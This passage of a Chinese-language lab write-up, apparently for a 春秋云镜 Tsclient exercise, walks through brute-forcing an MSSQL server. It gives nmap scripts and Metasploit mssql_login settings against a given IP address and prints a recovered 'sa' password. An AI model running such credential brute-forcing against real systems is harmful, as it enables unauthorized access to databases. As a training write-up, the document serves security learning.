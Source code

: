 1443端口打mssql

### nmap

```
nmap -p 1433 -Pn --script ms-sql-info 39.99.133.30
//-p 表示指定端口号、-Pn：不检测主机存活、--script 指定脚本
```

爆破

```
nmap -p 1433 -Pn --script ms-sql-brute --script-args userdb=mssql_user.txt,passdb=mssql_password.txt 39.99.133.30
// --script-args 指定脚本参数；userdb= 指定用户名字典 ；passdb= 指定密码字典
```

扫出来密码是

```
sa:1qaz!QAZ
```

### msf

```
use auxiliary/scanner/mssql/mssql_login
set rhost 39.99.133.30
set user_file C:/Users/86136/Desktop/mssql_user.txt
set pass_file C:/Users/86136/Desktop/top6000.txt
run
```

![image-20230730155420908](img/春秋云镜-Tsclient/image-20230730155420908.png)
